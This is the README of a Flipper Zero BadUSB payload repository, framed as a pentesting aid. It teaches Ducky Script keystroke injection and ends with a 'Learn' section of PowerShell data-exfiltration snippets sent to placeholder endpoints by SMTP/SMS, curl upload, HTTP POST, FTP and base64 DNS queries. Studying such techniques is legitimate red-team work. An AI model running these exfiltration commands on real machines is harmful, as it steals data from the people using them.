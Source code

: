 <div align="center">

  <img src="assets/logo.png" alt="logo" width="200" height="auto" />
  <h1>Flipper Zero BADUSB Repo</h1>
  
  <p>
    A Collection of Flipper Zero BADUSB Payloads
  </p>
</div>

<br />

<!-- Table of Contents -->
# Table of Contents 📒

- [About the Project](#about-the-project-🌟)
  * [Rubber Ducky](#rubber-ducky-🥚)
  * [Shop](#shop-🛍️)
- [Getting Started](#getting-started-🧰)
  * [Variables](#variables-🗝️)
  * [Installation](#installation)
  * [Deployment](#deployment-🚩)
  * [Learn](#learn-🎓)
- [Roadmap](#roadmap-🧭)
- [Contact](#contact-🤝)
- [Acknowledgements](#acknowledgements-💎)

  

<!-- About the Project -->
## About the Project 🌟
This Repository is to assist others in their pentesting adventures in addition to helping those get their feet wet for Ducky Scripts 🐥

<!-- Rubber Ducky -->
### Rubber Ducky 🥚
A USB Rubber Ducky is a keystroke injection tool that looks like a USB flash drive. When plugged in, it executes pre-programmed scripts that mimic keyboard input, allowing for quick automation of tasks such as penetration testing and security assessments.

## Shop 🛍️
<details>
  <summary>Hak5</summary>
  <ul>
    <li><a href="https://shop.hak5.org">Hak5 Shop</a></li>
    <li><a href="https://shop.hak5.org/products/usb-rubber-ducky">Rubber Ducky</a></li>
    <li><a href="https://payloadhub.com/blogs/payloads">Hak5's Payload Hub</a></li>
    <li><a href="https://docs.hak5.org/hak5-usb-rubber-ducky">Official Ducky Script Documentation</a></li>
  </ul>
</details>

<details>
  <summary>Flipper Zero</summary>
  <ul>
    <li><a href="https://shop.flipperzero.one">Flipper Zero Shop</a></li>
    <li><a href="https://docs.flipper.net/bad-usb">Flipper Zero's Badusb Documentation</a></li>
  </ul>
</details>

<details>
<summary>Digispark</summary>
  <ul>
    <li><a href="https://www.amazon.com/digispark/s?k=digispark">Amazon Digispark</a></li>
    <li><a href="https://blog.spacehuhn.com/badusb-digispark">Digispark Badusb</a></li>
    <li><a href="https://github.com/CharlesTheGreat77/DigiPass">Digispark Badusb Payloads</a></li>
  </ul>
</details>

<details>
<summary>External Flipper Resources</summary>
  <ul>
    <li><a href="https://github.com/jamisonderek">Mr. Derek Jamison</a></li>
  </ul>
</details>

<!-- Prerequisites -->
### Prerequisites 🚬
This project (and the Flipper Zero as a whole) uses *Ducky Script version 1*. Additionally, most payloads are tested in a *Windows 10* environment. Further testing will be need on *Windows 11* environment security standards.

<!-- Getting Started -->
## Getting Started 🧰
This is a VERY brief explanation of ducky script in my own words. One may refer to this <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">link</a> if in doubt of supported commands.
<details>
    <summary>REM</summary>
  <ul>
    <li>REM is used as a comment, and does not perform ANY keystroke injection. It got the name REM from the word REMark (remark).</li>
  </ul>
  <pre><code>REM This is a comment</code></pre>
</details>

<details>
    <summary>STRING</summary>
  <ul>
    <li>STRING injects injects a series of keystrokes. Interpreting lowercase, uppercase, etc. automatically with Flipper Zero's implmentation.</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
  <ul>
    <li>we'll cover the ENTER command right after..</li>
  </ul>
</details>

<details>
    <summary>ENTER</summary>
  <ul>
    <li>ENTER does just that.. presses the return (enter) button! This is one of many supported commands which can be found <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a>!</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
</details>

<details>
    <summary>DELAY</summary>
  <ul>
    <li>DELAY creates a momentary pause in miliseconds. This is VERY useful when keystrokes are too fast for the target computer to interpret. If your working payload is failing.. this is probably the cause (ADD MORE DELAY).</li>
  </ul>
  <pre><code>STRING hey!
ENTER
DELAY 1000
STRING how are you?
ENTER
</code></pre>
  Output:
  <pre><code>hey!
[delays for 1 second]
how are you?</code></pre>
</details>

<details>
    <summary>Additional Commands</summary>
  <ul>
    <li>Modifiers: <pre><code>CTRL
CONTROL
SHIFT
ALT
GUI
WINDOWS</code></pre></li>
    <li>Combos: <pre><code>CTRL-ALT
CTRL-SHIFT
ALT-SHIFT
ALT-GUI
GUI-SHIFT</code></pre></li>
    <li>Cursors: <pre><code>DOWNARROW
DOWN
LEFTARROW
LEFT
RIGHTARROW
RIGHT
UPARROW
UP</code></pre></li>
    <li>Control and navigation: <pre><code>ENTER, BREAK, PAUSE, CAPSLOCK, DELETE, BACKSPACE, END, ESC, ESCAPE, HOME, INSERT, NUMLOCK, PAGEUP, PAGEDOWN, PRINTSCREEN, SCROLLOCK, SPACE, TAB, MENU, APP, SYSRQ</code></pre></li>
    <li>Functions: <pre><code>F1, F2, F3, F4, F5, F6, F7, F8, F9, F10, F11, F12</code></pre></li>
  </ul>
</details>

<details>
    <summary>Your first payload (Windows)</summary>
  <ul>
    <li>Lets create a simple payload to open notepad and display.</li>
  </ul>
  <pre><code>GUI r
STRING notepad.exe
ENTER
DELAY 2000
STRING hello world!
ENTER
</code></pre>
  Output: Opens the windows run box with GUI r [GUI is a modifier], and types in notepad.exe, which opens notetpad and types:
  <pre><code>hello world!</code></pre>
  <ul>
    <li>Again, you can find modifiers, combos, cursors, etc. <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a></li>
  </ul>
</details>



<!-- Variables -->
### Variables 🗝️
To run most scripts (outside of PlugNPlay folder), one must populate the variables inside the payload (.txt) file. All variables will be clearly stated with ```%CHANGE_ME%```

Examples:
```
discord_webook = %CHANGE_ME%
```
```
smtp_server = %CHANGE_ME%
```

<!-- Download -->
# Installation
<details>
    <summary>Install BADUSB Repository 🖥️</summary>
    <details>
        <summary>Windows Install 🪟</summary>
            <ul>
                <li>Download the zip and extract the contents in your preffered directory.</li>
            </ul>
            <ul>
                <img src="assets/download.png" alt="logo" width="auto" height="auto" />
            </ul>
    </details>
    <details>
        <summary>Linux Download 🖥️</summary>
        <ul>
            <li>In any terminal:</li>
            <pre><code>git clone https://github.com/CharlesTheGreat77/BADUSB</code></pre>
        </ul>
    </details>

</details>


<!-- Deployment -->
## Deployment 🚩

To deploy the payloads, one must edit the payload (if required) by changing the variables accordingly in the *.txt* file(s) of choice. 

Copy the payloads in the badusb folder in the flipper zero BADUSB directory.


<!-- Payload Development -->
## Learn 🎓
These are brief powershell concepts which covers just about whatever you need for red teaming.
<details>
    <summary>Exfiltration Methods</summary>
  <ul>
    <li>SMTP and/or SMS</li>
  </ul>

```powershell
$hello_world = "Hello World!" # exfiltrate data
$send_to = "%SEND_TO%" # could be the email used below, another email, or a phone number
$smtp_server = "%SMTP_SERVER%" # smtp.gmail.com
$smtp_username = "%SMTP_USERNAME%" # gmail account [example@gmail.com]
$token = "%TOKEN%" # gmail token/smtp password
$SMTPInfo = New-Object Net.Mail.SmtpClient($smtp_server, 587); $SMTPInfo.EnableSsl = $true; $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential($smtp_username, $token); $ReportEmail = New-Object System.Net.Mail.MailMessage; $ReportEmail.From = $smtp_username; $ReportEmail.To.Add($send_to); $ReportEmail.Body = "Flipper Report: $hello_world"; $SMTPInfo.Send($ReportEmail)
```
Phone Number Setup for *send_to* variable:
    
    Format: <phonenumber>@smsgateway
    example: 9992221111@tmomail.net
SMS Gateways for Service Providers can be found <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a>!

  <ul>
    <li>File Transfer with curl:</li>
  </ul>

```powershell
curl.exe -F "file1=@filename.txt" <end_point>
```
  <ul>
    <li>HTTP POST request:</li>
  </ul>

```powershell
$content = Get-Content %FILE_TO_EXFIL% # output.txt
Invoke-WebRequest -Uri http://<http_server> -Method POST -Body $content
```
Exfiltrat files and send the contents via a HTTP post request.

  <ul>
    <li>HTTP POST request:</li>
  </ul>

  <ul>
    <li>FTP File Upload:</li>
  </ul>

```powershell
$fileName = "%FILENAME%"
$ftpUrl = "%FTP_URL%"
$ftpPassw = "%FTP_PASSWORD%"
$sampleData = "Sample data for exfiltration test"
Set-Content -Path $fileName -Value $sampleData
$creds = Get-Credential -Credential $ftpPassw
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile $fileName -Credential $creds
```
Upload files via FTP to an existing FTP server
  <ul>
    <li>Exfiltrate over DNS:</li>
  </ul>

```powershell
$dnsServer = "%DNS_SERVER%"
$exfiltratedData = "String of exfiltrated data"
$chunkSize = 63 # look at the sizes of record types
$encodedData = [System.Text.Encoding]::UTF8.GetBytes($exfiltratedData)
$encodedData = [Convert]::ToBase64String($encodedData)
$chunks = $encodedData -split "(.{$chunkSize})"
foreach ($chunk in $chunks) {
    $dnsQuery = $chunk + "." + $dnsServer
    Resolve-DnsName -Name $dnsQuery
    Start-Sleep -Seconds 5
}
```

</details>

<!-- Roadmap -->
## Roadmap 🧭

* [ ] Update Learn section in README
* [ ] Update filesystem hierarchy
* [ ] Update Payload list

<!-- Contact -->
## Contact 🤝

Dicord: DoobTheGoober

Projects: [github](https://github.com/CharlesTheGreat77)


<!-- Acknowledgments -->
## Acknowledgements 💎
I want to give some honor to specific individuals regardless of contribution for payload creation or sheer knowledge and motivation!

 - [Rocket God](https://github.com/RocketGod-git)
 - [Kavitate](https://github.com/Kavitate)
 - [Derek Jamison](https://github.com/jamisonderek)
 - [Redd](hhttps://github.com/InfoSecREDD)
